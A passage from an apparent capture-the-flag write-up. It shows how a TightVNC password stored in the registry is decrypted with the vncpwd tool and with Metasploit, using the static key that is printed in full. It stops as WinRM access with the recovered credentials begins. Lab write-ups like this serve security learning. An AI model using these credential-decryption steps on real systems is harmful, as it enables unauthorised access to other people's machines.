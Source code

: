     "SaveLogToAllUsersPath"=dword:00000000
    "RunControlInterface"=dword:00000001
    "IdleTimeout"=dword:00000000
    "VideoClasses"=""
    "VideoRects"=""



The line `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f` jumped out as
interesting.

### Crack TightVNC Password

Some reading about TightVNC shows that it stores the password in the
register encrypted with a static key. There's a bunch of tools out there
to do it. I used [this](https://github.com/jeroennijhof/vncpwd). It
takes a file with the ciphertext, which I created with
`echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass`:



    root@kali# /opt/vncpwd/vncpwd vnc_enc_pass
    Password: sT333ve2



That command is using the `-r -p` options in `xxd` to convert from a hex
string to ran binary.

I could also just use the Bash trick to treat command output as the
contents of a file with `<( )`:



    root@kali# /opt/vncpwd/vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
    Password: sT333ve2                       



[This link](https://github.com/frizb/PasswordDecrypts) shows how to do
it from within Metaspoit, and it works as well:



    msf5 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object

    irb: warn: can't alias jobs from irb_jobs.
    >> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
    => "\u0017Rk\u0006#NX\a"
    >> require 'rex/proto/rfb'
    => false
    >> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
    => "sT333ve2"



### WinRM

With these creds, `crackmapexec` shows that it is possible to get a
shell over WinRM:
